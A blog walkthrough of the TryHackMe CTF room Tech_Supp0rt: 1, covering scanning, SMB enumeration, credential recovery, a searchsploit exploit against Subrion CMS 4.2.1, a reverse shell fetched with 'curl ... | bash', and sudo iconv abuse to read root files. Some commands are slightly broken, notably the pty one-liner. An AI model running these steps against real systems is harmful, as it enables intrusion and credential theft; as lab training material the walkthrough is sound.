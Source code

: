 ```yaml
---
title: "Hello, Tech_Supp0rt: 1? I Think I Have a Problem with My CMS: TryHackMe Walkthrough"
slug: techsupp0rt-1
layout: post
excerpt_separator:  <!--more-->
categories:
  - ctfs
---
```


In this walkthrough, we explore the [Tech\_Supp0rt: 1](https://tryhackme.com/room/techsupp0rt1) CTF on [TryHackMe](https://tryhackme.com), covering steps such as using Nmap for scanning, Gobuster for directory enumeration, enum4linux for SMB share discovery, exploiting a Subrion panel, and escalating privileges to root. The process involves identifying open ports, finding directories and shares, cracking credentials, exploiting a vulnerable CMS, and ultimately gaining root access to the system.

### Step 1: Nmap

```bash
nmap -T4 -sV -sC -A -p- 10.10.185.192 --min-rate 1000
```

```plaintext
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 10:8a:f5:72:d7:f9:7e:14:a5:c5:4f:9e:97:8b:3d:58 (RSA)
|   256 7f:10:f5:57:41:3c:71:db:b5:5b:db:75:c9:76:30:5c (ECDSA)
|_  256 6b:4c:23:50:6f:36:00:7c:a6:7c:11:73:c1:a8:60:0c (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94%E=4%D=7/12%OT=22%CT=1%CU=36267%PV=Y%DS=4%DC=T%G=Y%TM=64AEDF5
OS:7%P=x86_64-pc-linux-gnu)SEQ(SP=109%GCD=1%ISR=109%TI=Z%CI=I%II=I%TS=8)SEQ
OS:(SP=109%GCD=2%ISR=109%TI=Z%CI=I%II=I%TS=8)OPS(O1=M509ST11NW7%O2=M509ST11
OS:NW7%O3=M509NNT11NW7%O4=M509ST11NW7%O5=M509ST11NW7%O6=M509ST11)WIN(W1=68D
OS:F%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN(R=Y%DF=Y%T=40%W=6903%O=M50
OS:9NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(
OS:R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F
OS:=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T
OS:=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RI
OS:D=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 4 hops
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: techsupport
|   NetBIOS computer name: TECHSUPPORT\x00
|   Domain name: \x00
|   FQDN: techsupport
|_  System time: 2023-07-12T22:43:56+05:30
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-time: 
|   date: 2023-07-12T17:13:54
|_  start_date: N/A
|_clock-skew: mean: -1h49m57s, deviation: 3h10m29s, median: 1s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
```

### Step 2: Gobuster

```bash
gobuster dir --url http://10.10.185.192/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -q
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691694161530/30c950ee-0961-48c9-a723-5eafdcea0818.png){: .center-image }

### Step 3: enum4linux

Let's run a scan to see which shares are available.

```bash
enum4linux 10.10.185.192
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691694181318/d8afa0a8-c0f9-425c-8731-cfcae2207f13.png){: .center-image }

### Step 4: SMB Share

```bash
smbclient //10.10.185.192/websvr
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691694198976/9e086cf7-0ba3-4d3b-a23d-b2d909de136c.png){: .center-image }

Let's see what is in this text file.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691694208878/1d05eb14-40c3-49f5-b197-06935ff5aca1.jpeg){: .center-image }

Hmmm. Let's see if we can crack this with CyberChef.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691694215985/5087cf0a-f5be-4454-9e72-e3320f78cead.jpeg){: .center-image }

### Step 5: Subrion Panel

Let's enumerate for a Subrion panel using gobuster.

```bash
gobuster dir --url http://10.10.185.192/subrion/ -f -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -o subrion.txt -b 301,302,304 -t 100 -q
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691694252898/7691c708-13af-4ce4-b4d5-c6aca067b15d.png){: .center-image }

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691694255875/6d3ecb61-de8f-497f-9da4-1527035af329.png){: .center-image }

We discovered an admin panel. Let's plugin the credentials we gathered from our earlier recon.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691694264864/21238113-44e3-4617-890d-4a25ff458c25.png){: .center-image }

It looks like the CMS version is 4.2.1. Searchsploit has an exploit for this.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691694275833/da984a89-a4e3-4efa-9ab4-ed5649f02085.png){: .center-image }

Download by typing:

```bash
searchsploit -m php/webapps/49876.py
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691694287456/77f97444-bb4e-4a4f-8be1-7d33a046880e.png){: .center-image }

### Step 6: Exploit

Exploit:

```bash
python3 49876.py -u http://10.10.185.192/subrion/panel/ --user=admin --passw=********
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691694314148/a405ae3e-fe79-4d21-a3c1-279eb21aabe4.jpeg){: .center-image }

Nice! Now, let's get a better stable shell on here. First, let's start a Python server where our reverse shell is located:

```bash
python3 -m http.server 8000
```

Then start a netcat listener to catch the shell:

```bash
rlwrap nc -lvnp 1337
```

Finally, pull the script onto the victim box:

```bash
curl http://10.10.185.192:8000/shell.sh | bash
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691694355516/65c08515-cddf-4fe8-9a4b-d648aec105b7.png){: .center-image }

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691694358359/109c8b8e-c60c-45a1-b6c7-c81d232cc975.png){: .center-image }

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691694361454/ce7b0205-5c69-49ac-be96-ac377ad93b59.png){: .center-image }

Let's upgrade it:

```bash
python -c 'import;pty.spawn("/bin/sh")'
export TERM=xterm-256color
```

### Step 7: Privesc and Root

First, let's check crontab:

```bash
cat /etc/crontab
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691694397778/dee6cb71-348f-4352-b74d-0805b0b6c1d3.png){: .center-image }

No attack vector here, let's check the binaries:

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691694413611/30208a04-7059-4260-ab64-94381a3897da.png){: .center-image }

Nothing here either, let's dig around the file system for something useful.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691694422337/412085da-158d-44ee-b0ae-d6963b608562.webp){: .center-image }

`/var/www/html/wordpress/wp-config.php` has a password that we can use to pivot.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691694434876/56b122dc-1934-40d9-a836-82c161609d48.jpeg){: .center-image }

Let's check `/etc/passwd` for usernames.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691694442635/35908c29-eb3e-4833-868b-948281d4623d.webp){: .center-image }

We can take the password we found from the wp-config.php and log in to `scamsite`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691694450937/e840b15b-4618-4cba-8d27-2450cad5f58c.jpeg){: .center-image }

And we're in. Let's see what we can run as sudo.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691694458305/5cb71a3a-b751-45d8-886f-60af5b94cc06.webp){: .center-image }

We can run `/usr/bin/iconv` as sudo. Let's check GTFObins for a privesc method.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691694466074/e2d88901-5498-4bb3-b989-9ed133bdb2ab.webp){: .center-image }

```bash
LFILE=/root/root.txt
sudo /usr/bin/iconv -f 8859_1 -t 8859_1 "$LFILE"
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691694475936/222810e2-1829-4fbc-a8a8-e8b251abe5cd.jpeg){: .center-image }

From here we could use this binary to read the `/etc/shadow` file and elevate permissions or create ways to maintain persistence. Overall, this box was very enjoyable and I'm glad there was a unique vector in order to gain root-level privileges.
